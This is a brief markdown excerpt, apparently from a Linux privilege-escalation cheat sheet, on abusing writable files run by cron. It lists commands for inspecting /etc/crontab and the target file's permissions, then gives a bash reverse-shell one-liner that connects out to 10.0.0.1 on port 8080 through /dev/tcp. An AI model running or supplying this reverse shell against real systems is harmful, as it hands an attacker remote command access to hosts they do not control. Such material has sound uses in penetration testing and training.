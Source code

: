 # File permissions
#### Detection
```bash
ls -al /etc/crontab
cat /etc/crontab
locate <file_to_be_executed>
ls -al <file_to_be_executed>
```
#### Exploitation
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```


